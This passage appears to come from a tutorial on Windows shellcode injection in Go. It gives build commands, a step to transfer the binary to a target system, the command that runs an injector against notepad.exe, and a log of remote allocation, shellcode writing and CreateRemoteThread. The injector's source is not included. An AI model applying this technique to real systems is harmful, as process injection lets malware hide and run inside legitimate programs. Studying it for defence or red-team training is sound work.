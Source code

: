 





## Instructions

Remember we'll need to import both dependencies again in case you've created a new project.

```shell
go get "github.com/zzl/go-win32api/v2/win32" 

go get "golang.org/x/sys/windows"  
```


You should now be able to compile your code using `go build`.

```shell
GOOS=windows GOARCH=amd64 go build -buildvcs=false 
```


In case it's required, transfer the binary over to the target system.

Open your target process, in my case I'll once again use `notepad.exe`.

Then, in a terminal with Administrative privileges, run your injector + pass the name of the target process as the sole argument.

```shell
.\injector.exe notepad.exe
```



## Results

Running our injector should produce the following output if successful:
```go
PS C:\Users\vuilhond\Desktop> .\injector.exe notepad.exe
[+] WinAPI Process Injection Tool
[*] Searching for process: notepad.exe
[+] Found target process 'notepad.exe' with PID: 9704
[+] Successfully obtained handle: 0x184
[*] Allocating 105 bytes in target process (RW)...
[+] Allocated 105 bytes at remote address: 0x21028210000
[*] Writing 105 bytes of shellcode to remote address 0x21028210000...
[+] Successfully wrote 105 bytes.
[*] Changing protection of remote address 0x21028210000 to PAGE_EXECUTE_READ (0x20)...
[+] Protection changed successfully. Old protection was: 0x4
[*] Creating remote thread with win32.CreateRemoteThread starting at address 0x21028210000...
[+] Successfully created remote thread with Handle: 0x180 and ID: 5256
[+] Check the target process for payload execution (e.g., MessageBox)...
[*] Remote thread finished with wait status: 0x0
[*] Remote thread handle closed.
[+] Injection attempt complete.
[*] Freeing remote memory...
[+] Remote memory freed.
```
